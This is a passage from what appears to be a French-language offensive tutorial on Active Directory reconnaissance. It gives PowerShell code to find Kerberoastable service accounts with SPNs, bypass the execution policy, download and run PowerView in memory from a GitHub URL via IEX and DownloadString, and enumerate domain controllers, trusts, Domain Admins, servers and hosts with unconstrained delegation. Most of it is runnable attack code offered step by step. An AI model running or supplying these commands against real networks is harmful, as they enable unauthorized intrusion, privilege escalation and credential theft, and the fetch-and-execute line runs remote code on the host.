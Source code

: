 ```powershell
# Énumération des SPNs pour Kerberoasting
$Searcher.Filter = "(&(objectCategory=user)(servicePrincipalName=*))"
$Searcher.FindAll() | ForEach-Object {
    Write-Output "SPN User: $($_.Properties.samaccountname) - SPN: $($_.Properties.serviceprincipalname)"
}
```
Identifie les comptes de service avec des SPNs pour les attaques Kerberoasting.

### 3 • Méthode pas-à-pas

#### Étape 1 : Configuration de l'environnement PowerShell avancé

Préparez un environnement PowerShell avec les modules nécessaires pour la reconnaissance Windows avancée.

```powershell
# Configuration de l'execution policy pour les scripts
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser -Force

# Téléchargement et import de PowerView
$PowerViewUrl = "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"
IEX (New-Object Net.WebClient).DownloadString($PowerViewUrl)

# Vérification des privilèges et du contexte
whoami /all
Get-DomainUser $env:USERNAME
```

#### Étape 2 : Énumération complète du domaine Active Directory

Effectuez une reconnaissance systématique de l'infrastructure Active Directory.

```powershell
# Découverte de la topologie du domaine
$Domain = Get-Domain
$DCs = Get-DomainController
$Trusts = Get-DomainTrust

Write-Output "Domaine: $($Domain.Name)"
Write-Output "Contrôleurs de domaine: $($DCs.Name -join ', ')"
Write-Output "Relations de confiance: $($Trusts.TargetName -join ', ')"

# Énumération des utilisateurs privilégiés
$AdminUsers = Get-DomainUser -AdminCount | Select-Object samaccountname, description
$DAMembers = Get-DomainGroupMember "Domain Admins" | Select-Object MemberName

# Identification des ordinateurs critiques
$Servers = Get-DomainComputer -OperatingSystem "*Server*" | Select-Object name, operatingsystem
$Unconstrained = Get-DomainComputer -Unconstrained | Select-Object name
```
